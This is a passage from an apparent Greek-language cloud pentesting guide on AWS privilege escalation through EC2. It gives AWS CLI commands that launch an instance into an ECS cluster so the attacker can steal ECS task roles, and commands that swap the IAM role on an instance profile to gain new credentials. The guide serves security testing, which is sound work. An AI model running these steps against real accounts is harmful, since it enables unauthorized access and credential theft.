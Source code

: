 {% content-ref url="../aws-services/aws-security-and-detection-services/aws-guardduty-enum.md" %}
[aws-guardduty-enum.md](../aws-services/aws-security-and-detection-services/aws-guardduty-enum.md)
{% endcontent-ref %}

**Πιθανές Επιπτώσεις:** Άμεσο privesc σε οποιονδήποτε ρόλο EC2 συνδεδεμένο με υπάρχοντα προφίλ παρουσίας.

#### Privesc σε ECS

Με αυτό το σύνολο δικαιωμάτων θα μπορούσατε επίσης **να δημιουργήσετε μια παρουσία EC2 και να την καταχωρίσετε μέσα σε ένα ECS cluster**. Με αυτόν τον τρόπο, οι **υπηρεσίες** ECS θα **εκτελούνται** μέσα στην **παρουσία EC2** όπου έχετε πρόσβαση και στη συνέχεια μπορείτε να διεισδύσετε σε αυτές τις υπηρεσίες (δοχεία docker) και **να κλέψετε τους ρόλους ECS που είναι συνδεδεμένοι**.

{% code overflow="wrap" %}
```bash
aws ec2 run-instances \
--image-id ami-07fde2ae86109a2af \
--instance-type t2.micro \
--iam-instance-profile <ECS_role> \
--count 1 --key-name pwned \
--user-data "file:///tmp/asd.sh"

# Make sure to use an ECS optimized AMI as it has everything installed for ECS already (amzn2-ami-ecs-hvm-2.0.20210520-x86_64-ebs)
# The EC2 instance profile needs basic ECS access
# The content of the user data is:
#!/bin/bash
echo ECS_CLUSTER=<cluster-name> >> /etc/ecs/ecs.config;echo ECS_BACKEND_HOST= >> /etc/ecs/ecs.config;
```
{% endcode %}

Για να μάθετε πώς να **αναγκάσετε τις υπηρεσίες ECS να εκτελούνται** σε αυτή τη νέα EC2 instance, ελέγξτε:

{% content-ref url="aws-ecs-privesc.md" %}
[aws-ecs-privesc.md](aws-ecs-privesc.md)
{% endcontent-ref %}

Εάν **δεν μπορείτε να δημιουργήσετε μια νέα instance** αλλά έχετε την άδεια `ecs:RegisterContainerInstance`, μπορεί να είστε σε θέση να καταχωρήσετε την instance μέσα στο cluster και να εκτελέσετε την σχολιασμένη επίθεση.

**Πιθανές Επιπτώσεις:** Άμεσο privesc σε ρόλους ECS που συνδέονται με εργασίες.

### **`iam:PassRole`,** **`iam:AddRoleToInstanceProfile`**

Παρόμοια με το προηγούμενο σενάριο, ένας επιτιθέμενος με αυτές τις άδειες θα μπορούσε να **αλλάξει τον IAM ρόλο μιας παραβιασμένης instance** ώστε να μπορέσει να κλέψει νέες διαπιστευτήρια.\
Καθώς ένα instance profile μπορεί να έχει μόνο 1 ρόλο, εάν το instance profile **έχει ήδη έναν ρόλο** (συνηθισμένη περίπτωση), θα χρειαστεί επίσης **`iam:RemoveRoleFromInstanceProfile`**.

{% code overflow="wrap" %}
```bash
# Removing role from instance profile
aws iam remove-role-from-instance-profile --instance-profile-name <name> --role-name <name>

# Add role to instance profile
aws iam add-role-to-instance-profile --instance-profile-name <name> --role-name <name>
```
{% endcode %}
